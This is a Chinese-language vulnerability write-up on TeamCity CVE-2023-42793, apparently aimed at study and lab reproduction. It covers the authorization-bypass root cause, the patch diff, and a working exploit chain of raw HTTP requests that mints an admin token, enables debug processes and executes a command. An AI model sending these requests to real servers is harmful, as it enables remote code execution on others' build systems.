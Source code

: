 # CVE-2023-42793

涉及**2023.05.3**及其之前的版本。

## 分析

代码在`/opt/teamcity/webapps/ROOT/WEB-INF/lib/web.jar`，cp出来反编译，因为teamcity是jetbrains自家的产品，拿IDEA会出现一部分代码反编译不出来，暂时不解决这个问题。

关于拦截器，可以学习这篇文章：[What is Spring Boot Request Interceptor and How to Use It? | by Ahmet Emre DEMİRŞEN | Medium](https://medium.com/@aedemirsen/what-is-spring-boot-request-interceptor-and-how-to-use-it-7fd85f3df7f7)

代码中逻辑错误导致的授权绕过：

```java
private boolean requestPreHandlingAllowed(@NotNull HttpServletRequest req) {
    // ...
    if (!this.myPreHandlingDisabled.matches(WebUtil.getPathWithoutContext(req))) {
        return true;
    }
    // path matches myPreHandlingDisabled? no pre-handling!
    return false;
}
```



```java
public RequestInterceptors(@NotNull List<HandlerInterceptor> var1) {
    // ...
    this.myPreHandlingDisabled.addPath("/**" + XmlRpcController.getPathSuffix());
    this.myPreHandlingDisabled.addPath("/app/agents/**");
}


```



```java
public class XmlRpcController extends AbstractController {
    public static String getPathSuffix() {
        return "/RPC2";
    }
    // ...
}
```



因此满足`/**/RPC2`的路由不会被授权。



## EXP

创建名字为RPC2的token

```http
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


```



带着token开启调试模式：

```http
POST /admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.RlpHRjdlenRRZ3FPN1gxMFY3SG5hNEQ0YmVv.OTZmMzg2MmItZTYyNy00NzRhLTg1NGItYmM2NDY2MGY5MWQ0
Connection: close


```



RCE：

```http
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.RlpHRjdlenRRZ3FPN1gxMFY3SG5hNEQ0YmVv.OTZmMzg2MmItZTYyNy00NzRhLTg1NGItYmM2NDY2MGY5MWQ0
Connection: close


```



删除token：

```http
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


```

## 修复

```java
public RequestInterceptors(@NotNull List<HandlerInterceptor> var1) {
    // ...
-   this.myPreHandlingDisabled.addPath("/**" + XmlRpcController.getPathSuffix());
+   this.myPreHandlingDisabled.addPath(XmlRpcController.getPathSuffix());
}

```



## References

[Source Code at Risk: Critical Code Vulnerability in CI/CD Platform TeamCity | Sonar](https://www.sonarsource.com/blog/teamcity-vulnerability/)

[vulhub/teamcity/CVE-2023-42793/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/teamcity/CVE-2023-42793/README.zh-cn.md)

[What is Spring Boot Request Interceptor and How to Use It? | by Ahmet Emre DEMİRŞEN | Medium](https://medium.com/@aedemirsen/what-is-spring-boot-request-interceptor-and-how-to-use-it-7fd85f3df7f7)